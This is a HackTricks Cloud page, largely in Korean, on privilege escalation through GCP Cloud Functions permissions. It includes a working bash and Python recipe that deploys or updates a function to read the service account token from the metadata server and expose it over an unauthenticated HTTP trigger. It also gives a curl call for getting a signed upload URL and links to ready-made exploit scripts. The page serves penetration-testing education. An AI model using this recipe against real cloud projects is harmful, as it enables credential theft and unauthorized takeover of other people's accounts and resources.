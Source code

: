 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions에 대한 추가 정보:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

이 권한을 가진 공격자는 **임의의 (악의적인) 코드를 가진 새로운 Cloud Function을 생성하고 이를 Service Account에 할당할 수 있습니다**. 그런 다음 메타데이터에서 Service Account 토큰을 유출하여 권한을 상승시킬 수 있습니다.\
함수를 트리거하기 위해 일부 권한이 필요할 수 있습니다.

이 방법에 대한 익스플로잇 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py)와 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py)에서 찾을 수 있으며, 미리 빌드된 .zip 파일은 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions)에서 찾을 수 있습니다.

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

이 권한을 가진 공격자는 **Function의 코드를 수정하고 심지어 연결된 서비스 계정을 수정하여 토큰을 유출할 수 있습니다**.

{% hint style="danger" %}
Cloud functions를 배포하려면 기본 컴퓨트 서비스 계정 또는 이미지를 빌드하는 데 사용되는 서비스 계정에 대한 actAs 권한도 필요합니다.
{% endhint %}

버전 1 cloudfunctions에 대한 `.call` 권한이나 함수를 트리거하기 위한 `role/run.invoker` 역할과 같은 추가 권한이 필요할 수 있습니다.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# If you don't have permissions to change the IAM policy, the "--allow-unauthenticated" will just fail and do nothing

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

이 권한을 사용하면 **함수 버킷에 파일을 업로드할 수 있는 서명된 URL을 얻을 수 있습니다(하지만 함수의 코드는 변경되지 않으며, 여전히 업데이트해야 합니다)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

공격자의 관점에서 이 권한만으로 얼마나 유용할지는 잘 모르겠지만, 알아두면 좋습니다.

### `cloudfunctions.functions.setIamPolicy`, `iam.serviceAccounts.actAs`

이전의 **`.update`** 또는 **`.create`** 권한 중 하나를 부여하여 권한 상승을 할 수 있습니다.

### `cloudfunctions.functions.update`

**`cloudfunctions`** 권한만 가지고 **`iam.serviceAccounts.actAs`** 권한이 없으면 함수를 업데이트할 수 없으므로, 이것은 유효한 권한 상승이 아닙니다.

### 버킷 쓰기 권한

Cloud Functions 코드가 저장된 버킷에 **쓰기 권한**이 있는 공격자가 **코드를 수정하여** `function_code.zip`을 덮어쓰고 함수를 **임의의** 코드를 실행하도록 만들 수 있다고 생각할 수 있습니다.

{% hint style="success" %}
**하지만, 이것은 사실이 아닙니다. 버킷 내의 코드를 덮어쓰는 것만으로는 실행되는 코드를 수정할 수 없습니다.**
{% endhint %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나, **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
